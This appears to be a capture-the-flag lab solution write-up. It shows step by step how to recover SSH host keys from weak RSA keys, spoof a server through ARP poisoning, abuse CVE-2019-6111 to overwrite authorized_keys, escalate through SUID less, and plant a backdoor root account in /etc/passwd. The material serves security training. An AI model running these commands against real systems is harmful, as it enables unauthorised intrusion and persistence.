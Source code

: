 # Solution

**NOTE**: This solution was tested on Kali Linux 2020.3. The machine was attached to the "LAN" Internal network

## Network scan

First, scan the network with `nmap`:

```shell
  $ nmap 192.168.10.4/16
```

We see that all machines have SSH enabled. The only other services running appear to be web servers and a database server.

Looking at the network traffic with `wireshark`, we observe that one of the machines performs an ssh connection to the other machines automatically every 5-10 minutes. This is the backup machine transferring data over scp. The backup server connection is rather interesting, because if we spoof one of the other machines and set up an SSH honeypot, there is a possibility that we can obtain credentials for access to the machines. However, when spoofing an SSH server, we must fool the SSH client that we are the legitimate server, i.e. that we have the same public key as the server. If we do not have it, the SSH client will produce and error message stating that the identity of the server has changed. The only option is to somehow obtain a SSH host private key of one of the other machines. We can try to scan for weak RSA keys.

## Weak RSA keys

We get the public RSA SSH keys of the servers with `ssh-keyscan`:

```bash
for SSH_SERVER_IP in 192.168.10.{4,5,6} 192.168.20.{2,3}; do
  ssh-keyscan -t rsa $SSH_SERVER_IP | sed 's/^.*\(ssh-rsa.*\)/\1/' > "$SSH_SERVER_IP.pub"
done
```

Using a tool like [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool), we try to attack the public keys to recover the private keys. Installation is a bit tedious, but it is worth it.

To use the SSH host keys with the tool, we must first convert them from OpenSSH format to PEM format:

```bash
mkdir -p RsaCtfTool/temp
for file in *.pub; do
  ssh-keygen -f "$file" -e -m pem > "RsaCtfTool/temp/${file%.pub}.pem"
done
```

We then use the tool:

```shell
  $ cd RsaCtfTool
  $ python3 RsaCtfTool.py --publickey "temp/*.pem" --private
```

The tool successfully retrieves the private keys of two machines using 
the common factor attack. One of the keys is for the backup machine and the
other is for the CA machine.

We cannot decrypt captured traffic due to SSH's security properties, but we can now impersonate one of the servers that the backup machine is trying to connect to.

## SSH Honeypot

We can first set up a honeypot to see what commands are being executed over SSH.
[Cowrie](https://github.com/cowrie/cowrie) is a very capable honeypot.

We have to configure cowrie. We copy the CA private key from the output of `RsaCtfTool` and
paste it into `cowrie/var/lib/cowrie/ssh_host_rsa_key`. 
We copy the public key we obtained from the server to `cowrie/var/lib/cowrie/ssh_host_rsa_key.pub`

Then make changes to the configuration file `cowrie/etc/cowrie.cfg.dist` at the following lines(so that it's guaranteed that the user will authenticate and start executing commands, and that the server will listen on all local IPs):

```bash
out_addr = 0.0.0.0
listen_endpoints = tcp:22:interface=0.0.0.0
auth_none_enabled = true
```

We can start cowrie and start monitoring the log. (Note that in order to run on port 22, cowrie must be ran as a superuser, or *preferably* set `sudo setcap 'cap_net_bind_service=+ep' bin/cowrie`)

```shell
  $ bin/cowrie start
  $ tail -f var/log/cowrie/cowrie.log
```

### IP spoofing

We must spoof our IP to force the backup machine to connect to the honeypot.
Since we are going to be spoofing the CA server, we should not force assign this IP to us for the whole network, as other services connect to the CA server and we wouldn't want to interrupt them, since that can make our intrusion obvious.

Instead, we perform ARP poisoning on only the target machine(the backup machine),
pointing the IP of the other machine to our MAC address.
A sample solution script is available in [ip_spoof.py](./solution/ip_spoof.py). We run this script in another terminal window(must be ran as superuser):

```shell
  $ # python3 ip_spoof.py TARGET_IP SPOOF_IP INTERFACE
  $ # python3 ip_spoof.py $BACKUP_SERVER_IP $CA_SERVER_IP INTERFACE
  $ sudo python3 ip_spoof.py 192.168.10.6 192.168.10.5 eth0
```

## SCP Fun

Waiting a bit, we see that an ssh session flies into our honeypot. The user `backupper`
attempts to execute `scp` commands. It also appears that the version of
the client is `OpenSSH_7.6p1`. Out of the scp commands, one is particularly interesting:

```shell
  $ scp -f .ssh/id_rsa.pub
```

This command sends the file id_rsa.pub (most likely a public key) from the user's `.ssh` folder to the remote(backup) machine over an ssh connection. It is even possible, that this file is then placed in the `.ssh` folder on the backup machine, i.e. the remote command may be

```shell
  $ scp backupper@ca:.ssh/id_rsa.pub ~/.ssh/
```

Looking through the CVEs for OpenSSH v7.6p1, we find [CVE-2019-611](https://nvd.nist.gov/vuln/detail/CVE-2019-6111) - an issue where the received filenames are not checked against the requested filenames, making overwriting of files in the local directory possible if the server is malicious. This use case is very relevant to us - if the command executed is truly what we guessed above, we can overwrite `authorized_keys` in the `.ssh` directory with our own key, enabling us to ssh into the backup machine, so we will try to do just that.

After following one of the links on the CVE page, we quickly find an exploit for this vulnerability is available - [https://www.exploit-db.com/exploits/46193](https://www.exploit-db.com/exploits/46193). We must modify it to do the following:

  1. Accept login as any username without any authentication
  2. Make the first command sent be `C0664 {} id_rsa.pub\n`, to transfer the "right" file
  3. Make the second command be `C0664 {} authorized_keys\n`, to transfer our public key
  4. Make the server bind to any local address(`0.0.0.0`) and port `22`
  5. Make the server run the private key we extracted earlier

The modified version of the exploit can be found in [scp_CVE_2019_6111.py](./solution/scp_CVE_2019_6111.py).

We generate a pair of SSH keys with `ssh_keygen`. When prompted, we store them in files with prefix `pwner`. Then, we ran the [scp_CVE_2019_6111.py](./solution/scp_CVE_2019_6111.py) as follows(cowrie must be stopped beforehand, `bin/cowrie stop`):

```shell
  $ # python3 scp_CVE_2019_6111.py SERVER_PRIVATE_KEY_FILE AUTHORIZED_KEYS_FILE LISTENING_PORT
  $ sudo python3 scp_CVE_2019_6111.py cowrie/var/lib/cowrie/ssh_host_rsa_key ./pwner.pub 22
```

Then we wait for the next backup window. After patiently waiting, we get a connection logged from our script and the files are transferred successfully and `authorized_keys` has been overwritten.

We then attempt login by running:

```shell
  $ ssh -i ./pwner backupper@192.168.10.6
```

And we are through!
We are then able to obtain `backupper`'s private keys form the `.ssh` folder which are used to connect to other machines. 

Everything is fine and we are able to connect to all of the machines. There is only one small problem - if we check the output of `id`, we see that we are not running as a privileged user, nor do we know the password to the `backupper` or `root` account.

## Privilege escalation

We will try the 101 in privilege escalation - using programs which have their SUID bit set, i.e. the program operates with root privileges, no matter which user calls it. We scan the system for such programs:

```shell
  $ find / -perm -u=s -type f 2>/dev/null
```

An unusual entry appears in the list - `/bin/less`. The least we can do is read `/etc/passwd` and `/etc/shadow` and attempt to crack the password with a tool like [HashCat](https://hashcat.net/hashcat/). However, there is a way much faster solution...

Less is an interactive program. Checking `man less` reveals that if we enter `!` in the interactive prompt to spawn a shell. The shell that is spawned is the same one as the `SHELL` environmental variable.

If we try that, it doesn't really work - checking the output of `id`, everything's still the same - the `euid` nor the `uid` are set to `0`(root).

Checking the default shell with `echo $SHELL` reveals that the shell we are running in is `bash`. Unfortunately, bash does not allow the `uid` and `euid` to be different([as described in https://unix.stackexchange.com/a/391319](https://unix.stackexchange.com/a/391319)). Fortunately, there are other shells available on the system - `cat /etc/shells` yields a nice candidate - `/bin/dash`.

Setting `SHELL` to `/bin/dash`, running less (i.e. `SHELL=/bin/dash less SOMEFILE`) and invoking `!`, grants us a root shell. Still, we don't have true root access - we're still unable to install packages with `apt`.

We can quickly fix that by dirty-generating a root user account:

1. We get a hashed password `badbadbad` for the password file with openssl

    ```shell
      $ openssl passwd -1 -salt NaCl badbadbad
    ```

2. We add a root new user account `badr00t` by `echo`ing to `/etc/passwd`:

    ```shell
      $ echo 'badr00t:$1$NaCl$MjO97wWxeHlHWFif/qJZf/:0:0:root:/root:/bin/bash' >> /etc/passwd
    ```

Then simply `su badr00t -` and entering `badbadbad` when prompted for a password. We are in full control of the system!

SSH to all the other machines using the keys from the backup machine and repeat this process(only for the web server the escalation is different - described in the solution to the simple backdoor) to get control of everything!
